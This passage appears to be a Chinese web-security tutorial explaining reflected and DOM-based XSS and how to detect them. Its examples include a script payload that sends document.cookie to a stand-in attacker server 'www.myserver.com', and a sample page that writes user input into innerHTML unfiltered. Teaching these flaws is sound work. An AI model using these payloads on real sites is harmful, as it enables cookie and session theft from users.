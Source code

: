 
#### 反射型XSS

> 给别人发送带有恶意脚本代码参数的 URL，当 URL 地址被打开时，特有的恶意代码参数被 HTML 解析、执行。它的特点是非持久化，必须用户点击带有特定参数的链接才能触发。

举例：

假如有这么一个链接 `http://test.com?content=hello world`，打开之后页面直接显示

```javascript
hello world
```

这种从参数中提取数据然后加载到 HTML 代码中的方式，如果对于参数没有过滤，就会出现**XSS漏洞**。

比如我们给用户发送一个这样的链接

```javascript
http://test.com?content=<script>window.open("www.myserver.com?param="+document.cookie)</script>
```

跟上面一样，凡是打开这个链接的人，他们的 cookie 信息就会发送到我的服务器上。



#### DOM-Based XSS

> **DOM-Based XSS**漏洞是基于文档对象模型(**Document Object Model**，DOM)的一种漏洞。DOM 是一个与平台、编程语言无关的接口，它允许程序或脚本动态地访问和更新文档内容、结构和样式，处理后的结果能够成为显示页面的一部分。DOM 中有很多对象，其中一些是用户可以操纵的，如 url ，location，refelTer 等。客户端的脚本程序可以通过 DOM 动态地检查和修改页面内容，它不依赖于提交数据到服务器端，而从客户端获得 DOM 中的数据在本地执行，如果 DOM 中的数据没有经过严格确认，就会产生 **DOM-Based XSS**漏洞。

举例：

假如有这么一个页面

```javascript
<div id="test"></div>
<input type="text" id="input" />
<button onclick="test()">提交</button>
<script>
    function test () {
        var text = document.getElementById('input').value
        document.getElementById('test').innerHTML = text
    }
</script>
```

假如我们在输入框中输入

```javascript
<script>window.open("www.myserver.com?param="+document.cookie)</script>
```

那么 cookie 又一次发送到了我的服务器上。



#### XSS攻击检测

* 使用XSS攻击字符串手动检测XSS漏洞 [](https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot)
* 使用扫描工具自动检测XSS漏洞 例如Arachni、Mozilla HTTP Observatory、w3af等
